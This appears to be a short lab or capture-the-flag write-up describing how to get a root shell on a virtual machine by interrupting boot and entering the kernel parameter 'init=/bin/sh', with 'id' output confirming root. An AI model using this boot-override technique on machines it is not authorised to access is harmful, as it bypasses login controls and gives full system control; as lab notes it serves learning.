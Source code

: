 Startup script exploit:

At the Vm's Startup we decide to change how to boot the VM

When the vm start  hit key :
    
    ctr+alt+f1
    boot: live init=/bin/sh

doing so we say our startup script is /bin/sh so it will open us a shell 

    #id
    uid=0(root) gid=0(root) groups=0(root)
